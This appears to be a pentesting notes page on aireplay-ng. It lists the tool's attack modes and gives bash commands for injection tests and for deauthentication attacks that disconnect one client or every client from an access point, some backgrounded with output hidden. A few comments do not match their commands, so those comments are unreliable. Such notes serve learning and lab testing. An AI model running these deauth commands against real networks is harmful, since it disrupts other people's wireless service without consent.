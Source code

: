 ```yaml
---
description: >-
  Aireplay-ng (Generate-Traffic)
title:  Aireplay-ng (Generate-Traffic)       # Add title here
date: 2023-09-26 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Aircrack Suite]                     # Change Templates to Writeup
tags: [wireless, aireplay-ng]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Aireplay-ng 

Aireplay-ng is primarily useful for generating wireless traffic.

Aireplay-ng supports the following attacks. They are listed along with the corresponding number from the tool's documentation.


|ATTACK |	ATTACK NAME |
|--------|-------|
| 0	| Deauthentication |
| 1	| Fake Authentication |
| 2	| Interactive Packet Replay |
| 3	| ARP Request Replay Attack |
| 4	| KoreK ChopChop Attack |
| 5	| Fragmentation Attack |
| 6	| Café-Latte Attack |
| 7	| Client-Oriented Fragmentation Attack |
| 8	| WPA Migration Mode Attack |
| 9	| Injection Test |


```bash
# check if we can inject invisible APs. The injection test measures ping response times to the AP
sudo aireplay-ng -9 wlan0mon 

# check if we can inject in a specific AP
sudo aireplay-ng -e <ap_name> -a <MAC> wlan0mon
```

### Deauthentication Attack
```bash
# deauth a client (1000000 is a large number of packets, to keep the deauth attack working for a while):
sudo aireplay-ng -0 10 -a <bssid> -c <client_MAC> wlan0mon

# To background the command and don't see output
sudo aireplay-ng --deauth 10 -a <bssid> -c <client_MAC> wlan0mon &> /dev/null &

# To deauth every client connected to a BSSID don't specify a client <MAC>
aireplay-ng --deauth 4 -a <bssid> wlan0mon &> /dev/null &

# Can be done as well by using broadcast MAC "FF:FF:FF:FF:FF:FF" 
aireplay-ng --deauth 4 -a <bssid> -c FF:FF:FF:FF:FF:FF wlan0mon

# Same as above, but without expecting to receive probes
sudo aireplay-ng -e <ap_name> -a <MAC> -D wlan0mon

# if we have two wifi cards, wlan0mon and wlan1mon, card-to-card test, to make sure they can inject. if it says (5/7 error, still can be used to attack an AP)
sudo aireplay-ng -9 -i wlan1mon wlan0mon
```
### Pro Tips
```bash
# with "jobs" we can see the jobs backgrounded with &. each has an ID
jobs

# kill all backgrounded aireplay processes.
killall aireplay-ng 

# kill only the first process in the "jobs" list:
kill %1
```

